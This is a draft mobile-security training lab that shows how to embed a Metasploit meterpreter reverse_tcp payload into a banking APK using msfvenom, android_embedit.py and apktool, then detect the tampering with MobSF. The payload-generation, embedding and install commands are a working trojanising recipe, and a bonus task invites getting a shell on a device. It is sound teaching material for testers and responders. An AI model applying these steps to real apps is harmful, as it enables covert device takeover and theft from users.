# APK Makeover (Android Edition) #

This lab will walk you through the steps of adding malicious code to a published app and comparing the backdoored app with the original app. There will be some challenges presented along the way. This is by design, so that you can start to develop some techniques for troubleshooting when things just aren't working during a mobile app test.

Objectives:

- Add a backdoor to a published APK
- Acquire troubleshooting techniques for mobile testing
- Analyze and compare the original APK to the backdoored APK for signs of tampering or malicious functionality

Tools Used in This Lab:

- android_embedit.py
- apktool
- adb
- MobSF

## Generate a Meterpreter Payload for Android ##

Let's start by running `msfvenom -h` in VM to initialize msf. Otherwise, the next step will hang.

Metasploit Framework provides a handful of payloads that target the Android platform. Run the following command to see what's available.


<pre>msfvenom -l payloads | grep android</pre>



We'll be using `android/meterpreter/reverse_tcp` for this lab. The callback IP address is set to locahost because we do not need to run it. Run the following command to generate the APK that we will embed in HackerBank.

<pre>msfvenom LHOST=127.0.0.1 LPORT=443 -p android/meterpreter/reverse_tcp R > msf.apk</pre>


## Introduction to android_embedit.py ##

`android_embedit.py` is a tool written by Joff Thyer to embed smali code inside of existing APK files (i.e. add a backdoor).

https://github.com/yoda66/AndroidEmbedIT

The process of backdooring an APK is relatively straight forward as can be seen in the following screenshot from the same repo. Doing this manually though is highly error prone. `android_embedity.py` automates the steps that are particularly easy to mess up such as adjusting the entrypoint and AndroidManifest.xml file. Be sure to tell Joff thank you the next time you see him. :)



TODO: Ensure that HackerBank app APK file is in VM

TODO: Add android_embedit.py to VM. You can download it with the link above.

Run the following command to get an idea of how to use `android_embedit.py`.

<pre>python3 android_embedit.py -h</pre>



The two required arguments are the original APK and the "malicious" APK that you want to embed. Run the following command to embed the meterpreter payload into HackerBank.

<pre>python3 android_embedit.py app-release.apk msf.apk</pre>



Uh oh. We got an error message. Let's take a closer look at what's going on to figure out why the script failed.

## Smoke Check: Decompile then Build ##

 As an initial troubleshooting step, let's try to decompile the app and rebuild it without making any changes to it. That will tell us if our tool chain is working. We'll use `apktool` for this step.

TODO: Ensure apktool version 2.7.0 is in VM. The apktool package is 2.5.0 and does not work with HackerBank.

TODO: Create a shell script to launch apktool and copy it to /usr/local/bin

TODO: Fix commands and screenshots below.

 Run the following command to the help menu for `apktool`.

<pre>apktool -h</pre>


Decompile HackerBank withe the `d` option.

<pre>apktool d app-release.apk</pre>


The APK was decompiled to a directory of the same name. Build the APK from the decompiled app with the following command.

<pre>apktool b app-release/</pre>


Ok. So `apktool` was not able to rebuild the same APK that it decompiled. If you search online for the error message in the figure above, you will likely come across suggestions to use the `-r` flag during decompilation. The help menu tells us that the `-r` flag is to prevent `apktool` decoding resources. Let's try decompiling with the `-r` flag and the same command when rebuilding. The `-f` flag is also included to force removal of the orginal directory.

```
apktool d -f -r app-release.apk
```


Run the following command to rebuild the APK.

```
apktool b app-release/
```



It Worked!

## Round 2 with android_embedit.py ##

Let's tweak `android_embedit.py` to include the `-r` flag when decompiling the original APK and see if that works. Add the `-r` flag in line 116 so that it looks like the following:


After adding the `-r` flag, re-run `android_embedit.py`.

```
android_embedity.py app-release.apk msf.apk
```


There's still a problem but the error message is different. The first time that we ran `android_embedit.py`, we saw an error message indicating that `AndroidManifest.xml` was not found. Since that error message was no longer present, we can assume that the manifest file is there. It also looks like the script had just completed decompiling `msf.apk` which means that it was about to patch `AndroidManifest.xml` file. Let's take a look at the `AndroidManifest.xml` file for clues as to what happened.

```
head ~/.ae/original_apk/AndroidManifest.xml
```


It looks like the `AndroidManifest.xml` file is still in the binary format. This makes sense, since we passed the `-r` flag to `apktool`. However, `android_embedit.py` needs the `AndroidManifest.xml` file in a plaintext format in order to patch it. Go ahead and remove the `-r` flag from line 116 of `android_embedit.py` since that will not work.

Where to go from here? We know that `apktool` can decompile our APK with the default settings, but it will fail when we try to rebuild it. Since we already tried changing the decompilation settings, let's take a look at `apktool`'s advanced features to see if there's anything we could change during the build step.

```
apktool -advanced
```


Under the `build` section, it appears that there's an option to utilize `aapt2`. Android Asset Packaging Tool (`aapt`) is what `apktool` runs by default when it builds an APK. Interestingly, while `apktool` refers to `aapt2` as "experimental," it has been the default version since Android Studio 3.0 which was released on October 25, 2017. Let's see what happens when we use the default options to decompile and the `--use-aapt2` flag to rebuild the APK.

```
apktool -f d app-release.apk
```

```
apktool b --use-aapt2 app-release/
```



That looks like it worked so let's see what happens if we modify `android_embedit.py` to use the `--use-aapt2` flag during the build step. Add the `--use-aapt2` flag at line 128 so that it looks like the following:



After modifying `android_embedit.py`, run it to see if everything works.

```
python3 android_embedit.py app-release.apk msf.apk
```


Hooray! No errors. Next, try installing the app to your device with `adb`. The first command is to check that you're still connected to your device.

```
adb devices
```
```
adb install ~/.ae/final.apk
```



The app didn't install. If you search online for the error message, you'll come across a github issue in `apktool`'s repo where other hackers were getting the same error message. Some commenters experienced success by using `zipalign` after building the APK. This author did not have luck in doing so. A more recent comment on the github issue hinted at using `apksigner` instead of `jarsigner`. Switching to `apksigner` was found to be effective. As a quick fix, we're going to change the sign method in `android_embedit.py`.

**BETWEEN** line 161 and line 162, paste the following code.

```
cmd = 'apksigner '
cmd += 'sign --ks {0} '.format(ks)
cmd += '--ks-pass pass:{0} '.format(kp)
cmd += '{0}'.format(fp)
```


After doing so, your copy of `android_embedity.py` should look like this.



TODO: Ensure that PATH has Android Sdk platform-tools and build-tools

The next step would be to attempt installing the app. However, at the time of writing this lab, the author was unable to get an APK, built on Linux, to install to a device.

TODO: Include app-release_with_msf.apk

If you look in your home directory, you'll see an APK file named, `app-release_with_msf.apk`. `app-release_with_msf.apk` was built using the exact same script, commands, and build tools. The only difference is that it was built on a macOS host. Why does this APK install and not the other one? ¯\\_(ツ)_/¯

Welcome to the world of mobile app security testing! :)

For the purposes of this lab, the APK that we built is useful as we can still analyze it with MobSF. Go ahead and drag the APK that we built into MobSF's UI to start analyzing it.

## Compare the MobSF Analyses ##

Once MobSF has finished analyzing the backdoored APK, we can use MobSF's compare analyses feature to quickly spot some key differences between the original and backdoored APK. Once the analysis of the backdoored APK has completed, the browser will be redirected to a static analysis of the backdoored APK. From here, click on the "Recent Scans" tab in the UI.



This should take you to a page that looks similar to below.



From here, the one significant difference that stands out is the hash of each APK. Next, click on the "Diff or compare" button to compare the scans. It doesn't matter which one you click. Either will do. When you see the "Select an application" notification, click the "OK" button. You should see one APK is highlighted in green. Click on the APK that is not highlighted to start the comparison. You will see another confirmation window similar to below. Click the "Start Diffing!" button.



The comparison should complete almost instantly as MobSF is essentially pulling data from its database and presenting it through the UI. If you were to install and run the apps on a device, there would be very little, if anything, to indicate that the APK had been tampered with. The comparison in MobSF paints a very different picture though. Take a look at the "Permission Summary" tile, for example. The backdoored APK has 20 permissions that were not in the original APK.



As a mobile security tester, you are often making judgement calls as to whether or not permissions are reasonable and/or appropriate based on the purpose and functionality included in the app. When looking at the permissions in the backdoored APK though, there are some permissions that just don't make sense for a mobile banking app. See `android.permissions.WRITE_SETTINGS` which allows the app to "modify global settings."



The same reasonableness test can be applied to the Android APIs used by the app. The first column in the figure below shows the Android APIs that both the apps used. The second column has Android APIs that were only seen in the backdoored app. The third column is a list of Android APIs that were only seen in the original APK. It makes sense that the third column is empty because the backdoor was an addition to the original APK. That is, no APIs were removed from the original APK.



By going through this lab, you were introduced to one of the things that makes mobile app security testing challenging. The technology stack for mobile devices is continuously changing. A testing technique that works today may no longer work six months down the road.

It is also very common to run into issues like what we saw with android_embedit.py where a couple minor tweaks to an existing tool will get the job done. Being able to work through these challenges in a methodical manner will enable you to be a more successful mobile app security tester.

If your responsibilities lie within the realm of incident response or digital forensics, we hope that the last portion of this lab presented you with some new ideas for analyzing malicious APKs.

## Bonus Lab: ##

- Get a shell on your Android device with a stand-alone meterpreter payload.
- Get a shell on your Android device with a backdoored version of HackerBank. 

## References: ##

- https://github.com/yoda66/AndroidEmbedIT
- https://medium.com/@lucideus/the-black-hat-art-of-backdooring-android-apk-part-1-lucideus-research-7215f79e7d51
- https://forum.xda-developers.com/t/apktool-jar-common-errors-and-solutions.4185443/
- https://connortumbleson.com/2018/02/19/taking-a-look-at-aapt2/
- https://developer.android.com/studio/command-line/aapt2
- https://github.com/iBotPeaches/Apktool/issues/2421
- https://platinmods.com/threads/how-to-turn-a-split-apk-into-a-normal-non-split-apk.76683/
- https://54m4ri74n.medium.com/hacking-android-mobile-using-meterpreter-257707d0e076